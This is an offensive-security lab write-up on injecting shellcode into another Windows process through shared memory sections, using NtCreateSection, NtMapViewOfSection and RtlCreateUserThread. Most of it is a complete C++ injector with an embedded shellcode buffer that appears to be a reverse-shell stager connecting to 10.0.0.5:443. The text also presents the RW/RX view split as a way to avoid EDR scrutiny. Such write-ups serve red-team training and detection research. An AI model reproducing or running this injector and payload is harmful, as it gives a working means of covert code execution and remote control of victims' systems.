



# NtCreateSection + NtMapViewOfSection Code Injection

## Overview

This lab is for a code injection technique that leverages Native APIs `NtCreateSection`, `NtMapViewOfSection` and `RtlCreateUserThread`.

* Section is a memory block that is shared between processes and can be created with `NtCreateSection` API 
* Before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`
* Multiple processes can read from and write to the section through the mapped views

High level overwiew of the technique:

* Create a new memory section with RWX protection
* Map a view of the previously created section to the local malicious process with RW protection
* Map a view of the previously created section to a remote target process with RX protection. Note that by mapping the views with RW \(locally\) and RX \(in the target process\) we do not need to allocate memory pages with RWX, which may be frowned upon by some EDRs.
* Fill the view mapped in the local process with shellcode. By definition, the mapped view in the target process will get filled with the same shellcode
* Create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode

## Execution

Let's create a new memory section in the local process, that will have RWX access rights set:

```cpp
fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

We can see the section got created and we obtained its handle 0x88:



Let's create an RW view of the section in our local process and obtain its address which will get stored in `localSectionAddress`:

```cpp
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
```



Let's create another view of the same section in a target process \(notepad.exe PID 6572 in our case\), but this time with RX protection. The memory address of the view will get stored in `remoteSectionAddress` variable:



We can now copy the shellcode into our `localSectionAddress`, which will get automatically mirrored/reflected in the `remoteSectionAddress` as it's a view of the same section shared between our local and target processes:

```cpp
memcpy(localSectionAddress, buf, sizeof(buf));
```

Below shows how the `localSectionAddress` gets filled with the shellcode and at the same time the `remoteSectionAddress` at `0x000002614ed50000` inside notepad \(on the right\) gets filled with the same shellcode:


We can now create a remote thread inside the notepad.exe and make the `remoteSectionAddress` its start address in order to trigger the shellcode:

```cpp
fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```


## Code

```cpp
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;    USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {    ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;    PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,    HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

    myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
    myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
    myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
    SIZE_T size = 4096;
    LARGE_INTEGER sectionSize = { size };
    HANDLE sectionHandle = NULL;
    PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;

    // create a memory section
    fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

    // create a view of the memory section in the local process
    fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

    // create a view of the memory section in the target process
    HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
    fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

    // copy shellcode to the local view, which will get reflected in the target process's mapped view
    memcpy(localSectionAddress, buf, sizeof(buf));

    HANDLE targetThreadHandle = NULL;
    fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

    return 0;
}
```

## References

{% embed url="http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html" caption="" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html" caption="" %}



